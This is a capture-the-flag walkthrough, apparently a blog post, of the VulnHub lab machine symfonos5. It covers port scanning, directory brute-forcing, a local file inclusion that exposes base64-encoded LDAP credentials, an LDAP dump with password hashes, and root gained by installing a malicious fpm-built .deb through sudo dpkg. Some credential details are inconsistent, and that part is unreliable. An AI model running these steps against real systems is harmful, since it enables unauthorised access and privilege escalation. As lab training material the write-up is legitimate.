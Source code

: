 ```yaml
---
layout : post
title: symfonos5
date: 2021-04-17 17:28:00 +5:30 
tags: [LFI,LDAP,gtfobin dpkg]
---
```

# Namp

```
22/tcp  open  ssh      OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 16:70:13:77:22:f9:68:78:40:0d:21:76:c1:50:54:23 (RSA)
|   256 a8:06:23:d0:93:18:7d:7a:6b:05:77:8d:8b:c9:ec:02 (ECDSA)
|_  256 52:c0:83:18:f4:c7:38:65:5a:ce:97:66:f3:75:68:4c (ED25519)
80/tcp  open  http     Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
389/tcp open  ldap     OpenLDAP 2.2.X - 2.3.X
636/tcp open  ldapssl?
```
# Enumeration

Port 80 Enumeration

```
gobuster dir -u http://10.0.2.52/ -w /usr/share/dirb/wordlists/big.txt -s 200,301,302 -x html,txt,php
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.0.2.52/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              html,txt,php
[+] Timeout:                 10s
===============================================================
2021/04/17 08:23:05 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess.html       (Status: 403) [Size: 274]
/.htaccess            (Status: 403) [Size: 274]
/.htpasswd            (Status: 403) [Size: 274]
/.htaccess.txt        (Status: 403) [Size: 274]
/.htpasswd.html       (Status: 403) [Size: 274]
/.htaccess.php        (Status: 403) [Size: 274]
/.htpasswd.txt        (Status: 403) [Size: 274]
/.htpasswd.php        (Status: 403) [Size: 274]
/admin.php            (Status: 200) [Size: 1650]
/home.php             (Status: 302) [Size: 0] [--> admin.php]
/index.html           (Status: 200) [Size: 207]              
/logout.php           (Status: 302) [Size: 0] [--> admin.php]
/portraits.php        (Status: 200) [Size: 165]              
/server-status        (Status: 403) [Size: 274]              
/static               (Status: 301) [Size: 307] [--> http://10.0.2.52/static/]
                                                                              
===============================================================
2021/04/17 08:23:15 Finished
===============================================================
```
/admin.php /home.php dir are intresting 

/admin directory not vulnerble to sqli
 ![]({{site.baseurl}}/img/vulnhub/symfonos5/admin.png)

when we try to access /home.php directory to redirect to /admin.php

fire brupsuite , checked the source Code , /home.php include url from server local host , here this leverage to LFI 
 ![]({{site.baseurl}}/img/vulnhub/symfonos5/LFI.png)

 `/var/www/html/admin.php has the ldap creds init encoded with base64`

 ```bash
 echo "Y2V0a0tmNHdDdUhDOUZFVA==" | base64 -d
 ```


![]()
<h3>LDAP Enumeration</h3>

>ldapsearch -h 10.0.2.52 -p 389 -b "dc=symfonos,dc=local" -w 'qMDdyZh3cT6eeAWD' -D "cn=admin,dc=symfonos,dc=local"

```
┌──(root💀nucleus)-[~]
└─# ldapsearch -h 10.0.2.52 -p 389 -b "dc=symfonos,dc=local" -w 'qMDdyZh3cT6eeAWD' -D "cn=admin,dc=symfonos,dc=local"
# extended LDIF
#
# LDAPv3
# base <dc=symfonos,dc=local> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# symfonos.local
dn: dc=symfonos,dc=local
objectClass: top
objectClass: dcObject
objectClass: organization
o: symfonos
dc: symfonos

# admin, symfonos.local
dn: cn=admin,dc=symfonos,dc=local
objectClass: simpleSecurityObject
objectClass: organizationalRole
cn: admin
description: LDAP administrator
userPassword:: e1NTSEF9VVdZeHZ1aEEwYldzamZyMmJodHhRYmFwcjllU2dLVm0=

# zeus, symfonos.local
dn: uid=zeus,dc=symfonos,dc=local
uid: zeus
cn: zeus
sn: 3
objectClass: top
objectClass: posixAccount
objectClass: inetOrgPerson
loginShell: /bin/bash
homeDirectory: /home/zeus
uidNumber: 14583102
gidNumber: 14564100
userPassword:: Y2V0a0tmNHdDdUhDOUZFVA==
mail: zeus@symfonos.local
gecos: Zeus User

# search result
search: 2
result: 0 Success

# numResponses: 4
# numEntries: 3

```

from above Enumeration we got Username and password

`zeus:Y2V0a0tmNHdDdUhDOUZFVA==`

# PrivilageEsclation

![]({{site.baseurl}}/img/vulnhub/symfonos5/sudodpkg.png)

dpkg linux package SUID can be run as root without  passwd

so first we need to create the .db package which contains the bash shell so that when it is extracted it `spawn the Bashshell`

fpm
: fpm is used to create the .db pacakge

> fpm -s dir -t deb -n exploit --before-install shell.sh .

```bash
zeus@symfonos5:/tmp$ sudo -u root /usr/bin/dpkg -i exploit_1.0_amd64.deb
Selecting previously unselected package exploit.
(Reading database ... 53057 files and directories currently installed.)
Preparing to unpack exploit_1.0_amd64.deb ...
root@symfonos5:/# cd /root
root@symfonos5:~# ls
proof.txt
root@symfonos5:~# cat proof.txt 
 
                    Congrats on rooting symfonos:5!
  
                                   ZEUS
              *      .            dZZZZZ,       .          *
                                 dZZZZ  ZZ,
     *         .         ,AZZZZZZZZZZZ  `ZZ,_          *
                    ,ZZZZZZV'      ZZZZ   `Z,`\
                  ,ZZZ    ZZ   .    ZZZZ   `V
        *      ZZZZV'     ZZ         ZZZZ    \_              .
.              V   l   .   ZZ        ZZZZZZ          .
               l    \       ZZ,     ZZZ  ZZZZZZ,
   .          /            ZZ l    ZZZ    ZZZ `Z,
                          ZZ  l   ZZZ     Z Z, `Z,            *
                .        ZZ      ZZZ      Z  Z, `l
                         Z        ZZ      V  `Z   \
                         V        ZZC     l   V
           Z             l        V ZR        l      .
            \             \       l  ZA
                            \         C          C
                                  \   K   /    /             K
                          A    \   \  |  /  /              /
                           \        \\|/ /  /
   __________________________________\|/_________________________
            Contact me via Twitter @zayotic to give feedback!

```